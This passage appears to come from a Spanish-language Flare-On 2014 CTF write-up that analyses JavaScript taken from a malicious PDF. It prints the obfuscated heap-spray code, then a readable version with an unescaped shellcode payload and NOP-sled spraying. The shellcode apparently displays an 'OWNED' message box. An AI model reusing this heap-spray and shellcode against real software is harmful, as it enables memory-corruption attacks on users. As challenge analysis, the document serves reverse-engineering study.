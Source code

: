 ``` javascript
QCZabMzxQiD = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length-bGtvKT);
while(QCZabMzxQiD.length+bGtvKT < 0x40000) QCZabMzxQiD = QCZabMzxQiD+QCZabMzxQiD+Juphd;
FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE = new Array();
for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=0;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA<125;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++) FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] = QCZabMzxQiD + zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
```

Ok, esto se ve un poco sucio por lo que renombrare algunas variables para que el código sea mas legible:

``` javascript
var unused = "";
var output2 = "";
var payload = unescape("%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff");
var output1 = "";

for (i=128;i>=0;--i) output1 += unescape("%ub32f%u3791");
out1_pay = output1 + payload;
str1 = unescape("%ub32f%u3791");
offset1 = 20;
total_len = offset1+out1_pay.length;
while (str1.length<total_len) str1+=str1;
substr1 = str1.substring(0, total_len);
substr2 = str1.substring(0, str1.length-total_len);
while(substr2.length+total_len < 0x40000) substr2 = substr2+substr2+substr1;
array1 = new Array();
for (i=0;i<100;i++) array1[i] = substr2 + out1_pay;

for (i=142;i>=0;--i) output2 += unescape("%ub550%u0166");
offset2 = output2.length + 20
while (output2.length < offset2) output2 += output2;
substr3 = output2.substring(0, offset2);
```

  [c2c76e1c]: http://www.flare-on.com/files/2014_FLAREOn_Challenges.zip "Flare-On 2014"
  [peepdf]: https://github.com/jesparza/peepdf "PeePDF"